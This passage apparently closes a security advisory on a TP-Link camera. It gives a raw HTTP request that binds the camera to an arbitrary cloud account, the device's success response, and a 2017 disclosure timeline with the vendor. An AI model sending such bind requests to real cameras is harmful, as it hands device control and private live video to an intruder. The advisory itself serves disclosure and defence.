 ***Register***

~~~
POST /cloud.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.15/register.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close
Upgrade-Insecure-Requests: 1

command=bind&username=[email]&password=[password]&token=
~~~


~~~
HTTP/1.1 200 OK
Content-Type: text/json
Connection: close
Server: lighttpd/1.4.32-devel-27736
Content-Length: 39

{"errorCode":0, "status":2, "binded":1}
~~~

Transfer of the camera can be verified by authenticating to the account
at https://www.tplinkcloud.com. The camera will now show up under the list of
devices. From here it is also possible to view a live stream from the camera.


# Timeline

- 30\. July, 2017 - Vendor is contacted via web form for security vulnerabilities
- 2\. August, 2017 - No response is provided by the vendor within the 1-3 days
promised and vendor is contacted via chat for tech support. Full advisory is
sent via email.

- 15\. August, 2017 - No confirmation or response recceived from vendor, vendor
is contacted again to confirm receipt of the report.
- 15\. August, 2017 - Vendor confirms receipt of the report
- 15\. August, 2017 - Vendor is contacted to clarify whether they intend to fix
reported issues
- 20\. August, 2017 - No response is received and vendor is contacted again to
clarify whether they intend to fix reported issues
- 21\. August, 2017 - Vendor confirms that they do not intend to fix reported
issues as they claim those vulnerailities are not in the in the camera.
- 21\. August, 2017 - Vendor is notified of public disclosure
- 21\. August, 2017 - Vendor responds with confirmation that they do intend to
fix the vulnerabilities.
- 22\. August, 2017 - Vendor provides beta firmware for testing
- 23\. August, 2017 - Vendor is notified that only half the vulnerabilities has
been patched.
- 25\. August, 2017 - Vendor confirms receipt of new report
- 30\. August, 2017 - Vendor provides new beta firmware for testing
- 4\. September, 2017 - Vendor is notified that the flaws have seemingly been fixed
- 1\. October, 2017 - Public disclosure




